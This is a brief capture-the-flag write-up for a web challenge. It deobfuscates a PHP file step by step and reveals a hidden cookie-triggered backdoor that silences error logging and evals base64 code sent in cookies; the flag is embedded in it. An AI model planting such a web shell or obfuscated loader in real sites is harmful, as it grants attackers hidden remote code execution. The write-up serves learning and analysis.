 # Web Challenge : 50 Point
- The Challenge is a zip file Which Contain a php code 
``` 
<?php
$kyo1="JGM9J2NvdW50JzskYT0kX0NPT0tecJRTtecpZihyZecXecNecldCgkYSeck9PSecdecmbCcgJiYgJGMecoJGEpPjMpe2luaec";
$kyo3="zectldmFsecKGecJhc2Uec2NF9kZWNvZGUocHJlZ19ecyZXecBsYWNlKGecFycmF5KCcvW15cdz1cc1ec0vJywnL1xeczLycpLCBhcnJ";
$gj = "bcoxacoxse64cox_coxdcoxecoxccoxode";
$kyo4="heecSgnJywnKycpLCBqb2luKGecFyeccmF5X3NsaWNlKCecRhLCRjKCRhKS0zKSkpKSeckec7ZWNobyAnPC8nLiRrLiecc+Jzt9";
$iuq = "str_replace";
$kyo2="V9zZecXQoJ2Vyeccm9yX2xvZycecsICcvecZGV2L251bGwnKTskecaecz0nYWd7aGlkZGVuecX2eclecuX3BocH0nO2VjecaG8gJzwnLeciRecrLic+J";
$gj = $iuq("cox", "", $gj);
eval($gj($iuq("ec", "", $kyo1.$kyo2.$kyo3.$kyo4)));
?>
``` 
- first the variable `$iuq` containe a php build in function which is used to replcae any this words `ec` in this variables `$kyo1,$kyo2,$kyo3,$kyo4` with nothing then when excute the code the output will be 

```
JGM9J2NvdW50JzskYT0kX0NPT0tJRTtpZihyZXNldCgkYSk9PSdmbCcgJiYgJGMoJGEpPjMpe2luaV9zZXQoJ2Vycm9yX2xvZycsICcvZGV2L251bGwnKTskaz0nYWd7aGlkZGVuX2luX3BocH0nO2VjaG8gJzwnLiRrLic+JztldmFsKGJhc2U2NF9kZWNvZGUocHJlZ19yZXBsYWNlKGFycmF5KCcvW15cdz1cc10vJywnL1xzLycpLCBhcnJheSgnJywnKycpLCBqb2luKGFycmF5X3NsaWNlKCRhLCRjKCRhKS0zKSkpKSk7ZWNobyAnPC8nLiRrLic+Jzt9
```
- decode it with base64 then the output will be 
```
$c='count';$a=$_COOKIE;if(reset($a)=='fl' && $c($a)>3){ini_set('error_log', '/dev/null');$k='ag{hidden_in_php}';echo '<'.$k.'>';eval(base64_decode(preg_replace(array('/[^\w=\s]/','/\s/'), array('','+'), join(array_slice($a,$c($a)-3)))));echo '</'.$k.'>';}
```
- you will see that variable `$a` is `fl` and variable `$k` is `ag{hidden_in_php}` so your flag is `flag{hidden_in_php}`
